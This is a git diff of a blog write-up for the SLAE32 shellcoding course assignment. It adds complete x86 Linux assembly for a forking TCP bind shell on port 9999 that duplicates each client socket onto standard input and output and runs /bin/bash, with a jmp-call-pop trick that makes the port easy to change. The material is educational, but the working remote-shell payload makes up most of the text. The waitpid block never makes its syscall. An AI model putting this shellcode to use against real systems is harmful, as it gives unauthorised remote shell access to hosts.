

Made the port number configurable

diff --git a/SLAE32/slae32-assignment1.md b/SLAE32/slae32-assignment1.md
@@ -88,140 +88,169 @@ Using this same technique, we can examine the contents of the registers at each 
 Based on this, I was able to create the following nasm code:
 
 ```nasm
+; Filename: shell_bind_fork_tcp.nasm
+; Author:  Mark Shaneck
+; Website:  http://markshaneck.com
+;
+;
+; Purpose: The purpose of this shellcode is to serve shells
+; to multiple clients without exiting
+
+
 global _start			
 
 section .text
 _start:
 
-  ; Set up the socket
-  ; need to call socketcall with args 1, and a pointer to domain (2), type (1), protocol(6)
-  xor eax, eax
-  mov al, 6 ; protocol = IPPROTO_TCP
-  push eax
-  mov al, 1 ; type = SOCK_STREAM
-  push eax
-  mov al, 2 ; domain = AF_INET
-  push eax
-  mov al, 102 ; syscall - socketcall
-  xor ebx,ebx
-  mov bl, 1   ; socket sockcall type
-  mov ecx, esp ; pointer to the args
-  int 0x80
+	; Set up the socket
+	; need to call socketcall with args 1, and domain (2), type (1), protocol(6)
+	xor eax, eax
+	mov al, 6 ; protocol = IPPROTO_TCP
+	push eax
+	mov al, 1 ; type = SOCK_STREAM
+	push eax
+	mov al, 2 ; domain = AF_INET
+	push eax
+	mov al, 102 ; syscall - socketcall
+	xor ebx,ebx
+	mov bl, 1   ; socket sockcall type
+	mov ecx, esp ; pointer to the args
+	int 0x80
 
-  ; eax now contains the socket file descriptor
-  ; save it in esi for later usage
-  mov esi,eax
+	; eax now contains the socket file descriptor
+	; save it in esi for later usage
+	mov esi,eax
 
-  ; Bind to the socket
-  ; need to contruct the sockaddr_in
-  ; this is 02 00 27 0f 00 00 00 00 00 00 00 00 00 00 00 00 for port 9999
-  xor ebx,ebx
-  push ebx ; null padding
-  push ebx ; null padding
-  push ebx ; INADDR_ANY
-  mov ebx, 0x2f27f0f2
-  and ebx, 0x0fff0f0f ;get 0x0200270f into ebx without any null bytes in the instructions
-  push ebx
-  mov ebx, esp ; now ebx has the address of the sockaddr_in struct
-  xor ecx,ecx
-  mov cl, 16
-  push ecx
-  push ebx
-  push esi
-  mov ecx, esp
-  xor ebx,ebx
-  mov bl, 2 ; bind sockcall type
-  xor eax,eax
-  mov al, 102 ; syscall - socketcall
-  int 0x80
+	; Bind to the socket
+        ; need to contruct the sockaddr_in
+        ; this is 02 00 27 0f 00 00 00 00 00 00 00 00 00 00 00 00 for port 9999
+	xor ebx,ebx
+	push ebx ; null padding
+	push ebx ; null padding
+	push ebx ; INADDR_ANY
 
-  ; Listen on the socket
-  xor eax,eax
-  push eax
-  push esi
-  mov ecx,esp ; pointer to args
-  xor ebx,ebx
-  mov bl, 4 ; listen sockcall type
-  mov al, 102 ; syscall - socketcall
-  int 0x80
+ 	; perform a jmp-call-pop to get the port number so that it is easily configurable
+	jmp short get_port
+
+got_port:
+	xor edx,edx
+	pop ecx ; put address of port number into ecx
+	mov ecx,[ecx] ; put port number into ecx
+	mov dx, cx
+	shl edx,16
+	mov ebx, 0xf00f0ff2
+	and ebx, 0x0ff0f00f
+	add ebx,edx ;get 0x0200270f into ebx without any null bytes in the instructions
+
+	push ebx
+	mov ebx, esp ; now ebx has the address of the sockaddr_in struct
+        xor ecx,ecx
+	mov cl, 16
+	push ecx
+	push ebx
+	push esi
+	mov ecx, esp
+	xor ebx,ebx
+	mov bl, 2 ; bind sockcall type
+	xor eax,eax
+	mov al, 102 ; syscall - socketcall
+	int 0x80
+
+	; Listen on the socket
+	xor eax,eax
+	push eax
+	push esi
+	mov ecx,esp ; pointer to args
+	xor ebx,ebx
+	mov bl, 4 ; listen sockcall type
+	mov al, 102 ; syscall - socketcall
+	int 0x80
 
 handle_connections:
-  ; accept a connection
-  xor eax,eax
-  mov al, 16
-  push eax ; sockaddr_in length
-  mov edx, esp ; store address of sockaddr_len
-  sub esp, 16 ; allocate space for client sockaddr
-  push edx ; address for sockaddr_len
-  sub edx, 16
-  push edx ; address for client sockaddr
-  push esi ; socket file descriptor
-  mov ecx, esp ; pointer to args
-  xor ebx,ebx
-  mov bl, 5 ; accept sockcall type
-  mov al, 102 ; syscall - socketcall
-  int 0x80
+	; accept a connection
+	xor eax,eax
+	mov al, 16
+	push eax ; sockaddr_in length
+	mov edx, esp ; store address of sockaddr_len
+	sub esp, 16 ; allocate space for client sockaddr
+	push edx ; address for sockaddr_len
+	sub edx, 16
+	push edx ; address for client sockaddr
+	push esi ; socket file descriptor
+	mov ecx, esp ; pointer to args
+	xor ebx,ebx
+	mov bl, 5 ; accept sockcall type
+	mov al, 102 ; syscall - socketcall
+	int 0x80
 
-  ; avoid memory leak and we don't care about the
-  ; client sockaddr anyways
-  ; also we won't process more than one connection at a time
-  ; although we could also use a null and ignore it altogether
-  add esp,32
+	; avoid memory leak and we don't care about the client sockaddr anyways
+	; also we won't process more than one connection at a time
+	add esp,32
 
-  ; save the clientsocket
-  mov edi,eax
+	; save the clientsocket
+	mov edi,eax
 
-  ; fork to process the connection
-  xor eax,eax
-  mov al, 2
-  int 0x80
-  xor ebx,ebx ; get a 0 to compare against
-  cmp eax,ebx ; compare with zero
-  je child ; if fork return a zero, we are in the child process
+	; fork to process the connection
+	xor eax,eax
+	mov al, 2
+	int 0x80
+	xor ebx,ebx ; get a 0 to compare against
+	cmp eax,ebx ; compare with zero
+	je child ; if fork return a zero, we are in the child process
 
-  ; call waitpid to prevent zombies
-  xor edx,edx ; options
-  sub esp,4 ; allocate space for return status
-  mov ecx,esp
-  mov ebx,eax ; child pid
-  xor eax,eax
-  mov al, 7 ; waitpid syscall
-  add esp,4 ; restore stack from child exit status
+	; call waitpid to prevent zombies
+	xor edx,edx ; options
+	sub esp,4 ; allocate space for return status
+	mov ecx,esp
+	mov ebx,eax ; child pid
+	xor eax,eax
+	mov al, 7 ; waitpid syscall
+	add esp,4 ; restore stack from child exit status
 
-  ; infinite loop
-  jmp handle_connections
+	; infinite loop
+	jmp handle_connections
+
+; need an intermediate target, since my code is too long for a short jump
+get_port:
+	jmp get_port_2
 
 child:
-  ; duplicate the file descriptors
-  mov ebx,edi
-  xor ecx,ecx
-  xor eax,eax
-  mov al, 63 ; dup2 syscall
-  int 0x80 ; dup2(clientsock, 0)
-  mov al, 63
-  inc ecx
-  int 0x80 ; dup2(clientsock, 1)
-  mov al, 63
-  inc ecx
-  int 0x80 ; dup2(clientsock, 2)
+	; duplicate the file descriptors
+	mov ebx,edi
+	xor ecx,ecx
+	xor eax,eax
+	mov al, 63 ; dup2 syscall
+	int 0x80 ; dup2(clientsock, 0)
+	mov al, 63
+	inc ecx
+	int 0x80 ; dup2(clientsock, 1)
+	mov al, 63
+	inc ecx
+	int 0x80 ; dup2(clientsock, 2)
 
-  ; execve the shell using stack method
-  ; let's execute bash
-  xor eax,eax
-  push eax
-  push 0x68736162
-  push 0x2f6e6962
-  push 0x2f2f2f2f
+	; execve the shell using stack method
+ 	; let's execute bash
+	xor eax,eax
+	push eax
+	push 0x68736162
+	push 0x2f6e6962
+	push 0x2f2f2f2f
 
-  mov ebx,esp ; pointer to "////bin/bash"
-  push eax
-  mov edx,esp ; env pointer (NULL)
+	mov ebx,esp ; pointer to "////bin/bash"
+	push eax
+	mov edx,esp ; env pointer (NULL)
 
-  push ebx
-  mov ecx,esp ; pointer to [pointer to "////bin/bash", 0]
+	push ebx
+	mov ecx,esp ; pointer to [pointer to "////bin/bash", 0]
 
-  mov al, 11 ; execve syscall
-  int 0x80
+	mov al, 11 ; execve syscall
+	int 0x80
+
+get_port_2:
+	call got_port
+	port: db 0x27, 0x0f ; port 9999
+	; easy to configure the port number, just change the last two bytes
+
 ```
 
 I compiled this asm code with a modified version of the compile script given in the course:
@@ -262,7 +291,7 @@ Pasting the shellcode into the shellcode.c stub file shows us that it works here
 
 {% include image name="functional_shellcode.png" width="100%" %}
 
-So it could have been more compact, and I will look to make my future shellcode more compact, but I learned a lot through the process of putting this together.
+So it could have been more compact, and I will look to make my future shellcode more compact, but I learned a lot through the process of putting this together. Also, since the port number is the last two bytes of the shell code, it is easy to configure the port number without reassembling and linking by just replacing the last two bytes of the shellcode.
 
 All necessary code from this assignment can be found [here](https://github.com/mshaneck/SLAE32/tree/master/A1)
 
